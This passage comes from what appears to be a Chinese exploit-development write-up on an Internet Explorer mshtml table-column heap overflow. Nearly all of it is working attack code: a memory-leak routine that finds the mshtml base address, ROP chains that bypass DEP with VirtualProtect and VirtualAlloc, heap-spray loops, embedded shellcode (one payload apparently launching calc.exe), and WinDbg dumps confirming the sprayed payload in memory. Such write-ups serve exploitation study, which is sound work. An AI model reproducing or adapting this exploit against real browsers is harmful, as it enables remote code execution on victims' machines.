style="table-layout:fixed" ><col id="112" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="113" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="114" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="115" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="116" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="117" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="118" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="119" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="120" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="121" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="122" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="123" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="124" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="125" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="126" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="127" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="128" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="129" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="130" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="131" width="41" span="9" >&nbsp </col></table><table style="table-layout:fixed" ><col id="132" width="41" span="9" >&nbsp </col></table>
    <script>
        function heapspray(cbuttonlayout) {
            CollectGarbage();
            var rop = cbuttonlayout + 4161; // RET
            var rop = rop.toString(16);
            var rop1 = rop.substring(4, 8);
            var rop2 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 11360; // POP EBP
            var rop = rop.toString(16);
            var rop3 = rop.substring(4, 8);
            var rop4 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 111675; // XCHG EAX,ESP
            var rop = rop.toString(16);
            var rop5 = rop.substring(4, 8);
            var rop6 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 12377; // POP EBX
            var rop = rop.toString(16);
            var rop7 = rop.substring(4, 8);
            var rop8 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 642768; // POP EDX
            var rop = rop.toString(16);
            var rop9 = rop.substring(4, 8);
            var rop10 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 12201; // POP ECX --> Changed
            var rop = rop.toString(16);
            var rop11 = rop.substring(4, 8);
            var rop12 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 5504544; // Writable location
            var rop = rop.toString(16);
            var writable1 = rop.substring(4, 8);
            var writable2 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 12462; // POP EDI
            var rop = rop.toString(16);
            var rop13 = rop.substring(4, 8);
            var rop14 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 12043; // POP ESI --> changed
            var rop = rop.toString(16);
            var rop15 = rop.substring(4, 8);
            var rop16 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 63776; // JMP EAX
            var rop = rop.toString(16);
            var jmpeax1 = rop.substring(4, 8);
            var jmpeax2 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 85751; // POP EAX
            var rop = rop.toString(16);
            var rop17 = rop.substring(4, 8);
            var rop18 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 4936; // VirtualProtect()
            var rop = rop.toString(16);
            var vp1 = rop.substring(4, 8);
            var vp2 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 454843; // MOV EAX,DWORD PTR DS:[EAX]
            var rop = rop.toString(16);
            var rop19 = rop.substring(4, 8);
            var rop20 = rop.substring(0, 4); // } RET

            var rop = cbuttonlayout + 234657; // PUSHAD
            var rop = rop.toString(16);
            var rop21 = rop.substring(4, 8);
            var rop22 = rop.substring(0, 4); // } RET


            var rop = cbuttonlayout + 408958; // PUSH ESP
            var rop = rop.toString(16);
            var rop23 = rop.substring(4, 8);
            var rop24 = rop.substring(0, 4); // } RET

            var shellcode = unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
            shellcode += unescape("%u4141%u4141%u4242%u4242%u4343%u4343"); // PADDING
            shellcode += unescape("%u4141%u4141"); // PADDING

            shellcode += unescape("%u" + rop1 + "%u" + rop2); // RETN
            shellcode += unescape("%u" + rop3 + "%u" + rop4); // POP EBP # RETN
            shellcode += unescape("%u" + rop5 + "%u" + rop6); // XCHG EAX,ESP # RETN

            // Standard DEP bypass
            shellcode += unescape("%u" + rop3 + "%u" + rop4); // POP EBP
            shellcode += unescape("%u" + rop3 + "%u" + rop4); // POP EBP
            shellcode += unescape("%u" + rop7 + "%u" + rop8); // POP EBP
            shellcode += unescape("%u1024%u0000"); // Size 0x00001024
            shellcode += unescape("%u" + rop9 + "%u" + rop10); // POP EDX
            shellcode += unescape("%u0040%u0000"); // 0x00000040
            shellcode += unescape("%u" + rop11 + "%u" + rop12); // POP ECX
            shellcode += unescape("%u" + writable1 + "%u" + writable2); // Writable Location
            shellcode += unescape("%u" + rop13 + "%u" + rop14); // POP EDI
            shellcode += unescape("%u" + rop1 + "%u" + rop2); // RET
            shellcode += unescape("%u" + rop15 + "%u" + rop16); // POP ESI
            shellcode += unescape("%u" + jmpeax1 + "%u" + jmpeax2); // JMP EAX
            shellcode += unescape("%u" + rop17 + "%u" + rop18); // POP EAX
            shellcode += unescape("%u" + vp1 + "%u" + vp2); // VirtualProtect()
            shellcode += unescape("%u" + rop19 + "%u" + rop20); // MOV EAX,DWORD PTR DS:[EAX]
            shellcode += unescape("%u" + rop21 + "%u" + rop22); // PUSHAD
            shellcode += unescape("%u" + rop23 + "%u" + rop24); // PUSH ESP
            shellcode += unescape("%u9090%u9090"); // NOPs
            shellcode += unescape("%u9090%u9090"); // NOPs
            shellcode += unescape("%u9090%u9090"); // NOPs

            shellcode += unescape("%ue8fc%u0089%u0000%u8960%u31e5%u64d2%u528b%u8b30" + 
                             "%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%uc031" + 
                             "%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf0e2%u5752" + 
                             "%u528b%u8b10%u3c42%ud001%u408b%u8578%u74c0%u014a" + 
                             "%u50d0%u488b%u8b18%u2058%ud301%u3ce3%u8b49%u8b34" + 
                             "%ud601%uff31%uc031%uc1ac%u0dcf%uc701%ue038%uf475" + 
                             "%u7d03%u3bf8%u247d%ue275%u8b58%u2458%ud301%u8b66" + 
                             "%u4b0c%u588b%u011c%u8bd3%u8b04%ud001%u4489%u2424" + 
                             "%u5b5b%u5961%u515a%ue0ff%u5f58%u8b5a%ueb12%u5d86" + 
                             "%u016a%u858d%u00b9%u0000%u6850%u8b31%u876f%ud5ff" + 
                             "%uf0bb%ua2b5%u6856%u95a6%u9dbd%ud5ff%u063c%u0a7c" + 
                             "%ufb80%u75e0%ubb05%u1347%u6f72%u006a%uff53%u63d5" + 
                             "%u6c61%u2e63%u7865%u0065");

            // Total spray should be 1000
            var padding = unescape("%u9090");
            while (padding.length < 1000)
                padding = padding + padding;
            var padding = padding.substr(0, 1000 - shellcode.length);
            shellcode += padding;
            while (shellcode.length < 100000)
                shellcode = shellcode + shellcode;
            var onemeg = shellcode.substr(0, 64 * 1024 / 2);
            for (i = 0; i < 14; i++) {
                onemeg += shellcode.substr(0, 64 * 1024 / 2);
            }
            onemeg += shellcode.substr(0, (64 * 1024 / 2) - (38 / 2));
            var spray = new Array();
            for (i = 0; i < 100; i++) {
                spray[i] = onemeg.substr(0, onemeg.length);
            }
        }
		function leak() {
            alert("2");
            var leak_col = document.getElementById("132");
            leak_col.width = "41";
            leak_col.span = "29";
        }
		function get_leak() {
			var str_addr = -1;
			for (var i = 0; i < 500; i++) {
				if (al[i].length > (0x100 - 6) / 2) {
					alert(al[i].length.toString(16))
					var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
					str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
					str_addr = str_addr - 0x1584f8;
					var hex = str_addr.toString(16);
					alert(hex);
					break;
				}
            }
            setTimeout("heapspray(str_addr)", 50);
        }
        function trigger_overflow() {
            alert("3");
            var evil_col = document.getElementById("132");
            evil_col.width = "1278888";
            evil_col.span = "39";
            alert("4");
        }
    	setTimeout("leak()", 400);
        setTimeout("get_leak()", 450);
        setTimeout("trigger_overflow()", 700);
    </script>
</body>
</html>
```

但是我们堆喷好像出了点问题，在`0x079f6da0`位置并没有数据



猜测可能是Exp的堆喷代码有点问题，所以换了泉哥的堆喷代码
```
<script>
    function heap_spray() {
        CollectGarbage();
        var heapobj = new Object();
    
        // generated with mona.py (mshtml.dll v)
        function rop_chain(mshtmlbase) {
            var arr = [
            mshtmlbase + Number(0x00001031),
            mshtmlbase + Number(0x00002c78),    // pop ebp; retn
            mshtmlbase + Number(0x0001b4e3),    // xchg eax,esp; retn (pivot)
            mshtmlbase + Number(0x00352c8b),    // pop eax; retn
            mshtmlbase + Number(0x00001340),    // ptr to &VirtualAlloc() [IAT]
            mshtmlbase + Number(0x00124ade),    // mov eax,[eax]; retn
            mshtmlbase + Number(0x000af93e),    // xchg eax,esi; and al,0; xor eax,eax; retn
            mshtmlbase + Number(0x00455a9c),    // pop ebp; retn
            mshtmlbase + Number(0x00128b8d),    // & jmp esp
            mshtmlbase + Number(0x00061436),    // pop ebx; retn
            0x00000001,    		   	    // 0x00000001-> ebx
            mshtmlbase + Number(0x0052d8a3),    // pop edx; retn
            0x00001000,    		   	    // 0x00001000-> edx
            mshtmlbase + Number(0x00003670),    // pop ecx; retn
            0x00000040,    		   	    // 0x00000040-> ecx
            mshtmlbase + Number(0x001d263d),    // pop edi; retn
            mshtmlbase + Number(0x000032ac),    // retn
            mshtmlbase + Number(0x00352c9f),    // pop eax; retn
            0x90909090,    		   	    // nop
            mshtmlbase + Number(0x0052e805),    // pushad; retn
            0x90909090,
            0x90909090,
            0x90909090,
            0x90909090,
            0x90909090,
                ];
            return arr;
        }

        function d2u(dword) {
            var uni = String.fromCharCode(dword & 0xFFFF);
            uni += String.fromCharCode(dword>>16);
            return uni;
        }

        function tab2uni(heapobj, tab) {
            var uni = ""
            for(var i=0;i<tab.length;i++) {
                uni += heapobj.d2u(tab[i]);
            }
            return uni;
        }
        
        heapobj.tab2uni = tab2uni;
        heapobj.d2u = d2u;
        heapobj.rop_chain = rop_chain;

        var code = unescape("%u40b0%u414b%u1d24%ub4a8%u7799%ube37%ua947%ud41a%u353f%ueb30%ud133%u2ae1%u31e0%ue2d3%u1514%ufd13%u3497%u7a7b%ufc39%u92ba%u9390%u0a4e%ubbf5%u8db2%ue385%uf823%ud53a%u0448%u750d%ud632%u707c%u4642%u7e78%ub12c%u2f98%u1c3c%u727e%u3b7b%u4fe0%ue38c%u4f76%u81b0%u2de2%u35ba%u86bb%u67f8%u8d0c%u9190%u7574%u7f71%u7d3c%u9f15%ub347%ud50b%u784e%u4970%u1b37%uc1ff%uc6fe%uc0c7%ub6d4%u9246%ub4b1%uf588%ua91d%u7c4b%u2548%u7a99%u9b3d%u01b7%u34eb%u1cb5%u38a8%ub8fc%ud609%ube4a%u9714%ue121%ub904%u42b2%u7796%u6924%u80f9%u0dfd%u412c%u2f05%u273f%ubf40%u9893%u7343%u6679%u77a8%ub63f%u7472%u707b%u843d%uebd2%uf630%ubfd5%u71b2%u757a%u1848%u0cf5%u96b7%uf889%u764a%u9b2d%u92b0%u66be%u7d97%ub425%u9114%u4904%uba34%u421c%ue308%uf902%u4140%u4773%u0d27%u93b5%u2299%u1dd4%u7c4f%u2867%u98fc%u2c24%ue212%ufd03%u78a9%u3505%u8390%u2fe0%u4337%u154b%u468d%u79b9%u297f%ubbd6%u197e%u4ee1%u9fb8%ub1b3%u4a3c%u7a7d%u7679%u4670%u2091%u74e1%ub043%u4e71%ub590%u75b7%u983c%u4bb3%ud687%uf86b%u9b40%u117f%ud1f7%u7bf9%u152f%u3427%u1d92%u3d97%u2d49%u720d%u014f%u7ce0%u3105%u10eb%u35f5%ub4b6%u1c2c%u93b2%u4704%ud52b%ubbb1%ue389%u4137%u7e78%u733f%u7742%u2925%ufcd0%u6624%u8dba%u67b9%u1a96%ua8fd%ua9be%ud40b%u4899%u9f14%u87bf%ue2f7%ub80c%u903d%u14b0%u25bb%u7d96%u1a7f%u79f5%uf809%u347c%u7b91%u4e47%ueb81%ue122%ud41b%u7074%ub21d%u2d72%u928d%ub3b1%ua905%u71b4%u4b0c%u9343%u0d76%u989f%u84b5%ub7d5%u4666%ube40%ub8bf%u201c%u48e2%u4a73%u6b2c%u2afc%u04e0%u4941%u3777%u10ba%u7ed6%u332f%ub9fd%u7a9b%u7875%u2415%u1299%uf9d2%u3f97%ub63c%u3567%u27a8%ue386%u7742%u4f73%ue380%ua93c%u757c%uf62b%ud0c0%u27e0%u214b%ue1d3%ub93f%u157d%u8c14%ue2c1%u9904%u7498%u7071%u6637%ueb28%u4e1c%u7fb6%u357b%u3297%u25d4%uf569%u9105%u4047%u0224%u78d6%u7941%uba3d%u49b1%u7276%u1d2f%u85bf%u67fc%u7e92%u4a2c%u7ab4%u1348%u93d5%u8d9b%u03bb%u74fd%u0879%u43e1%ue083%u1873%u46e3%u2372%ub2f8%u88b0%ub8f9%u969f%u75b5%u770c%u7b42%ub72d%u7aa8%ue219%ueb38%ub334%u90be%u4f7e%u0d7f%ub3b6%u3076%ubff5%u479f%u7167%ud40a%u3b7c%u66fc%u41b7%u9615%u3dfd%u3505%ub825%u1c7d%ub54a%u3940%u37d6%u3f92%u971d%u1478%u8d49%ua8b2%u3493%u2c3c%u902f%ud54f%u04a9%u1198%u91f8%ub99b%u9943%ubbb1%u0d70%u4824%u4b0c%ube4e%ub02d%uf93a%u27ba%ub446%udb42%ud9d1%u2474%u5af4%uc929%u49b1%u8cbe%uc04a%u31a0%u1972%uc283%u0304%u1572%ubf6e%u483c%u40e7%u89bd%uc997%ub858%uae85%ue929%ua419%u027c%ue8d2%u9194%u2496%u129a%u131c%ua395%u9b91%u6779%u67b0%ub480%u5912%uc94b%u9e53%u22b6%u7701%u91bc%ufcb5%u2980%ud2b4%u128e%u57ce%ue650%u5964%u5781%u11f3%ud339%u825b%u3038%ufeb8%u3d73%u740a%u9782%u7543%ud7b4%u480f%uda78%u8c4e%u05bf%ue625%ub8c3%u3d3d%u66b9%ua0c8%uec19%u016a%u219b%uc2ec%u8e97%u8c7b%u11bb%ua6a8%u9ac0%u694f%ud841%uad6b%uba09%uf412%u6df7%ue62b%ud150%u6c89%u0672%u2eab%ueb1b%ud081%u63db%ua392%u2ce9%u2c08%ua442%uab96%u9fa5%u236e%u2058%u6d8e%u749f%u05de%uf536%ud5b5%u20b7%u8619%u9b17%u76d9%u4bd8%u9cb1%ub4d7%u9ea1%udd3d%u644b%u22d6%u6723%ucb43%u6831%u579a%u8ebc%u77f6%u19e8%ue16f%ud2b1%uee0e%u9f6c%u6411%u5f82%u8ddf%u73ef%u7d88%u2eba%u811f%u4411%u17a0%ucf9d%u8ff7%u369f%u103f%u1d60%u994b%udef4%ue624%udf18%ub0b4%udf72%u64dc%u8c26%u6af9%ua0f3%uff51%u90fb%ua806%u1e93%u9e70%ue03c%u1e57%u3701%ua49e%u3d73%u64f2");
        var rop_chain = heapobj.tab2uni(heapobj, heapobj.rop_chain(mshtmlbase)) ;
        var shellcode = rop_chain + code

        while (shellcode.length < 100000)
            shellcode = shellcode + shellcode;
        var onemeg = shellcode.substr(0, 64*1024/2);
        for (i=0; i<14; i++) {
            onemeg += shellcode.substr(0, 64*1024/2);
        }

        onemeg += shellcode.substr(0, (64*1024/2)-(38/2));
        var spray = new Array();

        for (i=0; i<400; i++) {
            spray[i] = onemeg.substr(0, onemeg.length);
        }
    }
    function leak() {
        alert("2");
        var leak_col = document.getElementById("132");
        leak_col.width = "41";
        leak_col.span = "29";
    }
    function get_leak() {
        var str_addr = -1;
        for (var i = 0; i < 500; i++) {
            if (al[i].length > (0x100 - 6) / 2) {
                alert(al[i].length.toString(16))
                var leak = al[i].substring((0x100 - 6) / 2 + (2 + 8) / 2, (0x100 - 6) / 2 + (2 + 8 + 4) / 2);
                str_addr = parseInt(leak.charCodeAt(1).toString(16) + leak.charCodeAt(0).toString(16), 16);
                str_addr = str_addr - 0x1584f8;
                mshtmlbase = str_addr;
                var hex = str_addr.toString(16);
                alert(hex);
                break;
            }
        }
    }
    function trigger_overflow() {
        alert("3");
        var evil_col = document.getElementById("132");
        evil_col.width = "1278888";
        evil_col.span = "39";
        alert("4");
    }
    var mshtmlbase = "";
    setTimeout("leak()", 400);
    setTimeout("get_leak()", 450);
    setTimeout("heap_spray()", 1000);
    setTimeout("trigger_overflow()", 2000);
</script>
```

输出所有Shellcode的地址
```
0:013> s -d 0x0 L?7fffffff 414b40b0
```

中间不重要的删减掉，我们可以观察到本次堆喷的范围约为`004bf3d4 - 1e77fbb4`，可以说是覆盖非常广了
```
004bf3d4  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028c051c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028c0984  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028c0dec  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028e304c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028e34cc  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028e3934  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028e3d9c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
028e4204  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
......
0c0c008c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c04f4  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c095c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c0dc4  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c122c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c1694  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c1afc  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c1f64  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c23cc  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c2834  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
0c0c2c9c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
......
1e77d40c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77d874  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77dcdc  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77e144  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77e5ac  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77ea14  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77ee7c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77f2e4  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77f74c  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
1e77fbb4  414b40b0 b4a81d24 be377799 d41aa947  .@KA$....w7.G...
```

通过打断点我们来查看我们的目标地址的Shellcode分布情况，因为我们需要准确的跳到ROP起始地址，不然跳到堆上面是不会执行的，而我们设定的目标地址现在指向的是Shellcode其中的一段，并非ROP代码，我下面做了分割，可以看到三段数据的布局范围
```
079f6da8 6b ad 09 ba 12 f4 f7 6d 2b e6 50 d1 89 6c 72 06 ab 2e 1b eb 81 d0 db 63 92 a3 e9 2c 08 2c 42 a4  k......m+.P..lr........c...,.,B.
079f6dc8 96 ab a5 9f 6e 23 58 20 8e 6d 9f 74 de 05 36 f5 b5 d5 b7 20 19 86 17 9b d9 76 d8 4b b1 9c d7 b4  ....n#X .m.t..6.... .....v.K....
079f6de8 a1 9e 3d dd 4b 64 d6 22 23 67 43 cb 31 68 9a 57 bc 8e f6 77 e8 19 6f e1 b1 d2 0e ee 6c 9f 11 64  ..=.Kd."#gC.1h.W...w..o.....l..d
079f6e08 82 5f df 8d ef 73 88 7d ba 2e 1f 81 11 44 a0 17 9d cf f7 8f 9f 36 3f 10 60 1d 4b 99 f4 de 24 e6  ._...s.}.....D.......6?.`.K...$.
079f6e28 18 df b4 b0 72 df dc 64 26 8c f9 6a f3 a0 51 ff fb 90 06 a8 93 1e 70 9e 3c e0 57 1e 01 37 9e a4  ....r..d&..j..Q.......p.<.W..7..
079f6e48 73 3d f2 64
                     31 10 38 65 78 2c 38 65 e3 b4 39 65 8b 2c 6d 65 40 13 38 65 de 4a 4a 65 3e f9 42 65  s=.d1.8ex,8e..9e.,me@.8e.JJe>.Be
079f6e68 9c 5a 7d 65 8d 8b 4a 65 36 14 3e 65 01 00 00 00 a3 d8 8a 65 00 10 00 00 70 36 38 65 40 00 00 00  .Z}e..Je6.>e.......e....p68e@...
079f6e88 3d 26 55 65 ac 32 38 65 9f 2c 6d 65 90 90 90 90 05 e8 8a 65 90 90 90 90 90 90 90 90 90 90 90 90  =&Ue.28e.,me.......e............
079f6ea8 90 90 90 90 90 90 90 90 00 00 00 00 b0 40 4b 41 24 1d a8 b4 99 77 37 be 47 a9 1a d4 3f 35 30 eb  .............@KA$....w7.G...?50.
079f6ec8 33 d1 e1 2a e0 31 d3 e2 14 15 13 fd 97 34 7b 7a 39 fc ba 92 90 93 4e 0a f5 bb b2 8d 85 e3 23 f8  3..*.1.......4{z9.....N.......#.
079f6ee8 3a d5 48 04 0d 75 32 d6 7c 70 42 46 78 7e 2c b1 98 2f 3c 1c 7e 72 7b 3b e0 4f 8c e3 76 4f b0 81  :.H..u2.|pBFx~,../<.~r{;.O..vO..
079f6f08 e2 2d ba 35 bb 86 f8 67 0c 8d 90 91 74 75 71 7f 3c 7d 15 9f 47 b3 0b d5 4e 78 70 49 37 1b ff c1  .-.5...g....tuq.<}..G...NxpI7...
079f6f28 fe c6 c7 c0 d4 b6 46 92 b1 b4 88 f5 1d a9 4b 7c 48 25 99 7a 3d 9b b7 01 eb 34 b5 1c a8 38 fc b8  ......F.......K|H%.z=....4...8..
079f6f48 09 d6 4a be 14 97 21 e1 04 b9 b2 42 96 77 24 69 f9 80 fd 0d 2c 41 05 2f 3f 27 40 bf 93 98 43 73  ..J...!....B.w$i....,A./?'@...Cs
079f6f68 79 66 a8 77 3f b6 72 74 7b 70 3d 84 d2 eb 30 f6 d5 bf b2 71 7a 75 48 18 f5 0c b7 96 89 f8 4a 76  yf.w?.rt{p=...0....qzuH.......Jv
079f6f88 2d 9b b0 92 be 66 97 7d 25 b4 14 91 04 49 34 ba 1c 42 08 e3 02 f9 40 41 73 47 27 0d b5 93 99 22  -....f.}%....I4..B....@AsG'...."
079f6fa8 d4 1d 4f 7c 67 28 fc 98 24 2c 12 e2 03 fd a9 78 05 35 90 83 e0 2f 37 43 4b 15 8d 46 b9 79 7f 29  ..O|g(..$,.....x.5.../7CK..F.y.)
079f6fc8 d6 bb 7e 19 e1 4e b8 9f b3 b1 3c 4a 7d 7a 79 76 70 46 91 20 e1 74 43 b0 71 4e 90 b5 b7 75 3c 98  ..~..N....<J}zyvpF. .tC.qN...u<.
079f6fe8 b3 4b 87 d6 6b f8 40 9b 7f 11 f7 d1 f9 7b 2f 15 27 34 92 1d 97 3d 49 2d 0d 72 4f 01 e0 7c 05 31  .K..k.@......{/.'4...=I-.rO..|.1
079f7008 eb 10 f5 35 b6 b4 2c 1c b2 93 04 47 2b d5 b1 bb 89 e3 37 41 78 7e 3f 73 42 77 25 29 d0 fc 24 66  ...5..,....G+.....7Ax~?sBw%)..$f
079f7028 ba 8d b9 67 96 1a fd a8 be a9 0b d4 99 48 14 9f bf 87 f7 e2 0c b8 3d 90 b0 14 bb 25 96 7d 7f 1a  ...g.........H........=....%.}..
079f7048 f5 79 09 f8 7c 34 91 7b 47 4e 81 eb 22 e1 1b d4 74 70 1d b2 72 2d 8d 92 b1 b3 05 a9 b4 71 0c 4b  .y..|4.{GN.."...tp..r-.......q.K
079f7068 43 93 76 0d 9f 98 b5 84 d5 b7 66 46 40 be bf b8 1c 20 e2 48 73 4a 2c 6b fc 2a e0 04 41 49 77 37  C.v.......fF@.... .HsJ,k.*..AIw7
079f7088 ba 10 d6 7e 2f 33 fd b9 9b 7a 75 78 15 24 99 12 d2 f9 97 3f 3c b6 67 35 a8 27 86 e3 42 77 73 4f  ...~/3...zux.$.....?<.g5.'..BwsO
079f70a8 80 e3 3c a9 7c 75 2b f6 c0 d0 e0 27 4b 21 d3 e1 3f b9 7d 15 14 8c c1 e2 04 99 98 74 71 70 37 66  ..<.|u+....'K!..?.}........tqp7f
079f70c8 28 eb 1c 4e b6 7f 7b 35 97 32 d4 25 69 f5 05 91 47 40 24 02 d6 78 41 79 3d ba b1 49 76 72 2f 1d  (..N..{5.2.%i...G@$..xAy=..Ivr/.
079f70e8 bf 85 fc 67 92 7e 2c 4a b4 7a 48 13 d5 93 9b 8d bb 03 fd 74 79 08 e1 43 83 e0 73 18 e3 46 72 23  ...g.~,J.zH........ty..C..s..Fr#
079f7108 f8 b2 b0 88 f9 b8 9f 96 b5 75 0c 77 42 7b 2d b7 a8 7a 19 e2 38 eb 34 b3 be 90 7e 4f 7f 0d b6 b3  .........u.wB{-..z..8.4...~O....
079f7128 76 30 f5 bf 9f 47 67 71 0a d4 7c 3b fc 66 b7 41 15 96 fd 3d 05 35 25 b8 7d 1c 4a b5 40 39 d6 37  v0...Ggq..|;.f.A...=.5%.}.J.@9.7
079f7148 92 3f 1d 97 78 14 49 8d b2 a8 93 34 3c 2c 2f 90 4f d5 a9 04 98 11 f8 91 9b b9 43 99 b1 bb 70 0d  .?..x.I....4<,/.O.........C...p.
079f7168 24 48 0c 4b 4e be 2d b0 3a f9 ba 27 46 b4 42 db d1 d9 74 24 f4 5a 29 c9 b1 49 be 8c 4a c0 a0 31  $H.KN.-.:..'F.B...t$.Z)..I..J..1
079f7188 72 19 83 c2 04 03 72 15 6e bf 3c 48 e7 40 bd 89 97 c9 58 b8 85 ae 29 e9 19 a4 7c 02 d2 e8 94 91  r.....r.n.<H.@....X...)...|.....
079f71a8 96 24 9a 12 1c 13 95 a3 91 9b 79 67 b0 67 80 b4 12 59 4b c9 53 9e b6 22 01 77 bc 91 b5 fc 80 29  .$........yg.g...YK.S..".w.....)
079f71c8 b4 d2 8e 12 ce 57 50 e6 64 59 81 57 f3 11 39 d3 5b 82 38 30 b8 fe 73 3d 0a 74 82 97 43 75 b4 d7  .....WP.dY.W..9.[.80..s=.t..Cu..
079f71e8 0f 48 78 da 4e 8c bf 05 25 e6 c3 b8 3d 3d b9 66 c8 a0 19 ec 6a 01 9b 21 ec c2 97 8e 7b 8c bb 11  .Hx.N...%...==.f....j..!....{...
079f7208 a8 a6 c0 9a 4f 69 41 d8 6b ad 09 ba 12 f4 f7 6d 2b e6 50 d1 89 6c 72 06 ab 2e 1b eb 81 d0 db 63  ....OiA.k......m+.P..lr........c
079f7228 92 a3 e9 2c 08 2c 42 a4 96 ab a5 9f 6e 23 58 20 8e 6d 9f 74 de 05 36 f5 b5 d5 b7 20 19 86 17 9b  ...,.,B.....n#X .m.t..6.... ....
079f7248 d9 76 d8 4b b1 9c d7 b4 a1 9e 3d dd 4b 64 d6 22 23 67 43 cb 31 68 9a 57 bc 8e f6 77 e8 19 6f e1  .v.K......=.Kd."#gC.1h.W...w..o.
079f7268 b1 d2 0e ee 6c 9f 11 64 82 5f df 8d ef 73 88 7d ba 2e 1f 81 11 44 a0 17 9d cf f7 8f 9f 36 3f 10  ....l..d._...s.}.....D.......6?.
079f7288 60 1d 4b 99 f4 de 24 e6 18 df b4 b0 72 df dc 64 26 8c f9 6a f3 a0 51 ff fb 90 06 a8 93 1e 70 9e  `.K...$.....r..d&..j..Q.......p.
079f72a8 3c e0 57 1e 01 37 9e a4 73 3d f2 64
                                             31 10 38 65 78 2c 38 65 e3 b4 39 65 8b 2c 6d 65 40 13 38 65  <.W..7..s=.d1.8ex,8e..9e.,me@.8e
079f72c8 de 4a 4a 65 3e f9 42 65 9c 5a 7d 65 8d 8b 4a 65 36 14 3e 65 01 00 00 00 a3 d8 8a 65 00 10 00 00  .JJe>.Be.Z}e..Je6.>e.......e....
079f72e8 70 36 38 65 40 00 00 00 3d 26 55 65 ac 32 38 65 9f 2c 6d 65 90 90 90 90 05 e8 8a 65 90 90 90 90  p68e@...=&Ue.28e.,me.......e....
079f7308 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 00 00 00 00 b0 40 4b 41 24 1d a8 b4 99 77 37 be  .....................@KA$....w7.
079f7328 47 a9 1a d4 3f 35 30 eb 33 d1 e1 2a e0 31 d3 e2 14 15 13 fd 97 34 7b 7a 39 fc ba 92 90 93 4e 0a  G...?50.3..*.1.......4{z9.....N.
079f7348 f5 bb b2 8d 85 e3 23 f8 3a d5 48 04 0d 75 32 d6 7c 70 42 46 78 7e 2c b1 98 2f 3c 1c 7e 72 7b 3b  ......#.:.H..u2.|pBFx~,../<.~r{;
